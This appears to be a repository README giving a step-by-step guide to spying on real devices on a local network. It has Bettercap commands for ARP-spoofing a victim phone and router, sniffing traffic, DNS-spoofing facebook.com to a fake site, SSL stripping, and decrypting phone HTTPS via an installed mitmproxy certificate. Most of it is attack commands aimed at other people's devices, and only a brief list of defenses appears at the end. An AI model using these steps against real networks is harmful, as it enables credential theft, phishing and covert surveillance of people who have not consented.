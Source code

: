 ## WHAT YOU CAN DO IN A REAL NETWORK

### You *CAN*:

* Perform **ARP spoofing** between router and target
* Capture **DNS queries**, **unencrypted HTTP**, and **some app metadata**
* Try **SSL stripping** (if target uses HTTP or ignores HSTS)
* Log **hostnames**, **IP connections**, and **open ports**

### You *CANNOT*:

* See HTTPS passwords easily (most apps/sites use HSTS or certificate pinning)
* Decrypt traffic from apps like Instagram, WhatsApp, Gmail without installing your **root certificate** on the device (risky and hard to scale)


## GUIDE: SPYING ON REAL DEVICES

### 1. Connect Kali to the Same Router

* Wi-Fi: `wlan0` interface
* Ethernet: `eth0` interface
* Find your local IP:

  ```bash
  ip a
  ```



### 2. Scan the Network

```bash
sudo arp-scan --localnet
```

Find the target device IP (e.g., Android phone: `192.168.0.105`) and the router (e.g., `192.168.0.1`).



### 3. Start Bettercap

```bash
sudo bettercap -iface wlan0
```



### 4. Enable ARP Spoofing (Victim + Router)

```bash
set arp.spoof.targets 192.168.0.105
arp.spoof on
set net.ipv4.forwarding true
```



### 5. Start Sniffing Traffic

```bash
net.sniff on
set net.sniff.verbose true
```



### 6. Optional Modules to Try

#### DNS Spoof

Redirect a site to fake one:

```bash
set dns.spoof.domains facebook.com
set dns.spoof.address 192.168.0.100  # your fake site
dns.spoof on
```

#### HTTPS Strip (rarely works due to HSTS)

```bash
https.proxy on
https.strip on
```

> Most phones will reject SSL-stripped traffic. Modern Android/iOS requires installing a custom CA cert to MITM HTTPS traffic.



## Better Success with These:

| Protocol           | Info Captured               | Tool      |
| ------------------ | --------------------------- | --------- |
| **DNS**            | Website names               | Bettercap |
| **HTTP**           | Forms, credentials, cookies | Bettercap |
| **FTP/Telnet**     | Plaintext logins            | Wireshark |
| **Unsecured apps** | Token leakage or API calls  | mitmproxy |



## Want Full HTTPS Decryption from Phones?

To go deeper:

1. Set up **mitmproxy** on Kali
2. Route phone traffic through proxy
3. Install mitmproxy’s CA cert on the phone manually
4. Only then can HTTPS be decrypted (no HSTS/CSP pinning)



## DEFENSES AGAINST THIS

* Use VPN on all devices (tunnels past local MITM)
* HSTS and TLS pinning (used by most modern apps)
* ARP spoof detection (e.g., `arpwatch`, `Snort`)
* Use WPA3 and guest networks for untrusted users
